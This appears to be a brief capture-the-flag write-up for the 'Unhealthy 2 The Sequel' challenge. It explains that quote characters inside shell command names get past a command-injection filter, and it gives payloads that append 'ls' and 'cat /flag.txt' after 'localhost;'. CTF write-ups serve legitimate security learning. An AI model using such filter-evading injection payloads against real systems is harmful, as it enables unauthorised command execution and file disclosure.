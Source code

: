 # Unhealthy 2 The Sequel

My teammate solved this one, but it turned out to be a pretty simple bypass, just putting quotes between the injected `ls` command:

`localhost;l''s`

To retrieve the flag:

```
localhost; c''at /''fl''ag.txt
```
